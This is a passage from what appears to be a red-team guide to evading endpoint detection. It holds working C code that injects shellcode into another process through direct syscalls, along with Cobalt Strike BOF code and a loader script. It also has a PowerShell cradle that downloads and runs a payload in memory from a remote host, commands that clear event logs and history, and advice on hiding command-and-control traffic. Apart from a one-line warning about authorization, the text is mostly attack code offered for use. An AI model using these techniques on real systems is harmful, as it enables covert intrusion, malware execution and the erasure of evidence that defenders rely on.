python3 syswhispers.py --functions NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtOpenProcess,NtQueueApcThread,NtProtectVirtualMemory -o syscalls

# Output files:
# syscalls.h   — function declarations and type definitions
# syscalls.c   — hash-based syscall number resolution
# syscallsstubs.asm — actual syscall assembly stubs
```

```c
// Using SysWhispers2 in your project
#include "syscalls.h"

int main() {
    HANDLE hProc;
    OBJECT_ATTRIBUTES oa = {sizeof(oa)};
    CLIENT_ID cid = {(HANDLE)(DWORD_PTR)target_pid, NULL};

    // Direct syscall — no EDR userland hook intercepts this
    NtOpenProcess(&hProc, PROCESS_ALL_ACCESS, &oa, &cid);

    PVOID base = NULL;
    SIZE_T size = shellcode_len;
    NtAllocateVirtualMemory(hProc, &base, 0, &size,
                             MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    SIZE_T written;
    NtWriteVirtualMemory(hProc, base, shellcode, shellcode_len, &written);

    ULONG old_prot;
    NtProtectVirtualMemory(hProc, &base, &size, PAGE_EXECUTE_READ, &old_prot);

    HANDLE hThread;
    NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProc,
                     base, NULL, FALSE, 0, 0, 0, NULL);
    return 0;
}
```

```bash
# SysWhispers3 — adds indirect syscall support
git clone https://github.com/klezVirus/SysWhispers3.git
cd SysWhispers3
pip3 install -r requirements.txt

# Generate with indirect syscall mode (safer against stack-unwinding EDR checks)
python3 syswhispers.py \
  --functions NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx \
  --syscall-instruction-type indirect \
  -o syscalls_indirect

# Integration: add syscalls.c, syscalls.h, syscallsstubs.asm to your MSVC project
# In MSVC: Project → Build Customizations → enable MASM
# Add syscallsstubs.asm, set to "Microsoft Macro Assembler"
```

---

## Beacon Object Files (BOFs)

**BOFs (Beacon Object Files)** are compiled C object files (`.o`) loaded and executed directly inside Cobalt Strike's Beacon process. They require no new process spawn.

### Why BOFs Are Stealthy

- No new process created — avoids `PsSetCreateProcessNotifyRoutine` detections
- No DLL loaded — avoids `PsSetLoadImageNotifyRoutine` detections
- Run in Beacon's existing process memory
- Use Beacon's built-in API wrappers (BeaconPrintf, BeaconDataExtract)
- Short-lived — execute and return control to Beacon

### Writing a Simple BOF

```c
// whoami_bof.c — Minimal BOF that returns current user
#include <windows.h>
#include "beacon.h"  // From Cobalt Strike distribution

// Beacon API declarations (from beacon.h)
DECLSPEC_IMPORT void BeaconPrintf(int type, char *fmt, ...);
DECLSPEC_IMPORT void BeaconDataParse(datap *parser, char *buffer, int size);
DECLSPEC_IMPORT char *BeaconDataExtract(datap *parser, int *size);

void go(char *args, int len) {
    char username[256];
    char computername[256];
    DWORD uname_len = sizeof(username);
    DWORD cname_len = sizeof(computername);

    // Use KERNEL32$GetUserNameA — BOF must use Beacon's API import style
    KERNEL32$GetUserNameA(username, &uname_len);
    KERNEL32$GetComputerNameA(computername, &cname_len);
    
    BeaconPrintf(CALLBACK_OUTPUT, "User: %s\\%s\n", computername, username);
}
```

```bash
# Compile BOF (must use object file, NOT executable)
x86_64-w64-mingw32-gcc -o whoami_bof.o -c whoami_bof.c \
  -masm=intel -Wall -fno-asynchronous-unwind-tables \
  -fno-ident -fpack-struct=8 -falign-functions=1 \
  -ffunction-sections -fdata-sections -fno-exceptions -fno-rtti

# Load in Cobalt Strike:
# beacon> inline-execute /path/to/whoami_bof.o
# Or use aggressor script to load as a command
```

```python
# Aggressor script to add BOF as a Cobalt Strike command
# whoami.cna
alias whoami_bof {
    local('$bdata');
    $bdata = read("/path/to/whoami_bof.o");
    binline-execute($1, $bdata, bof_pack(""));
}
```

### TrustedSec BOF Collection

```bash
# Clone TrustedSec's BOF library
git clone https://github.com/trustedsec/CS-Situational-Awareness-BOF.git

# Available BOFs include:
# - arp           — ARP table
# - driversigs    — Check driver signatures
# - env           — Environment variables
# - ipconfig      — Network config
# - listdns       — DNS cache
# - netstat       — Network connections
# - nslookup      — DNS lookup
# - tasklist      — Running processes
# - whoami        — Current user and privileges
# - sc_query      — Service query
# - reg query     — Registry query
# - schtaskquery  — Scheduled tasks
```

---

## OPSEC Principles for Red Teamers

> **Warning:** These principles apply to **authorized red team engagements only**. Operating without explicit written authorization is illegal.

### Process Relationship Rules

```
SAFE parent-child relationships (EDR won't alert):
    explorer.exe    → cmd.exe, powershell.exe, any user-facing app
    winlogon.exe    → userinit.exe → explorer.exe
    services.exe    → svchost.exe
    svchost.exe     → taskhost.exe

DANGEROUS relationships (EDR WILL alert):
    winword.exe     → cmd.exe        ← Office spawning shell
    excel.exe       → powershell.exe ← Office spawning PowerShell
    outlook.exe     → wscript.exe    ← Email client running script
    chrome.exe      → powershell.exe ← Browser spawning shell
    java.exe        → cmd.exe        ← Java spawning shell
```

```powershell
# Use PPID spoofing to make malicious process appear as child of explorer
# See PPID spoofing code in Technique 9 above
```

### Sleep Jitter

```
# Cobalt Strike sleep with jitter
sleep 60 35    # 60 seconds base, 35% jitter (45–81 seconds)

# Profile-based timing — beacon only during business hours
# Use Malleable C2 profile:
set sleeptime "60000";
set jitter    "35";
```

### Fileless Operation

```powershell
# Never write payload to disk
# Use in-memory execution via reflection or BOFs

# Fileless PowerShell — download and execute in memory
$url = "http://10.10.10.10/payload.ps1"
$wc = New-Object System.Net.WebClient
$wc.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36")
IEX $wc.DownloadString($url)

# .NET assembly load into memory
$bytes = (New-Object Net.WebClient).DownloadData("http://10.10.10.10/assembly.dll")
[System.Reflection.Assembly]::Load($bytes)
```

### Artifact Cleanup Checklist

```powershell
# After operation — clean artifacts
# 1. Remove dropped files
Remove-Item "C:\Users\Public\payload.exe" -Force -ErrorAction SilentlyContinue

# 2. Clear PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath -Force -ErrorAction SilentlyContinue
Clear-History

# 3. Remove scheduled tasks used for persistence
Unregister-ScheduledTask -TaskName "WindowsUpdate" -Confirm:$false

# 4. Remove registry persistence
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
    -Name "Updater" -ErrorAction SilentlyContinue

# 5. Remove injected DLLs — kill the injected process thread, clean memory
# (Tool-specific — handled by your C2 framework)

# 6. Clean Windows event logs (selective — see log-evasion.md)
wevtutil cl "Windows PowerShell"
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

### Communication OPSEC

```
C2 Communication Best Practices:
┌─────────────────────────────────────────────────────┐
│ ✓ Use HTTPS with valid TLS certificate              │
│ ✓ Profile traffic to mimic legitimate services      │
│ ✓ Use redirectors — never expose C2 server IP       │
│ ✓ Implement sleep/jitter — avoid regular beaconing  │
│ ✓ Beacon only during business hours                 │
│ ✓ Use domain fronting or CDN where feasible         │
│ ✓ Rotate C2 infrastructure between engagements      │
│ ✓ Use aged domains with established reputation      │
│ ✗ Never beacon from C2 IP directly                  │
│ ✗ Never use self-signed certs in production         │
│ ✗ Never use default Cobalt Strike TLS fingerprint   │
└─────────────────────────────────────────────────────┘
```

---

## EDR Evasion Decision Flow



---

## Injection Technique Comparison

| **Technique** | **New Process** | **Disk Write** | **Hook Evasion** | **EDR Detection Risk** | **Privilege Needed** | **Stability** |
|---|---|---|---|---|---|---|
| Classic DLL Injection | No | Yes (DLL) | No | High | Medium | High |
| Reflective DLL Injection | No | No | Partial | Medium | Medium | High |
| Process Hollowing | Yes | No | Partial | Medium-High | Low | High |
| Process Injection (RWX) | No | No | No | High | Medium | High |
| APC Early Bird | Yes | No | High | Low-Medium | Low | High |
| Thread Hijacking | No | No | High | Medium | Medium | Medium |
| BOF (Beacon Object File) | No | No | Very High | Very Low | Beacon | High |
| Phantom DLL Hollowing | No | No | High | Low | Medium | Medium |
| PPID Spoofing (alone) | Yes | Depends | No | Reduces risk | Low | High |
| Direct Syscalls | No | No | Very High | Low | Any | High |

> **Note:** Detection risk is relative and depends heavily on the specific EDR product, its version, and configuration. Always test in a representative lab environment before deploying in a red team engagement.
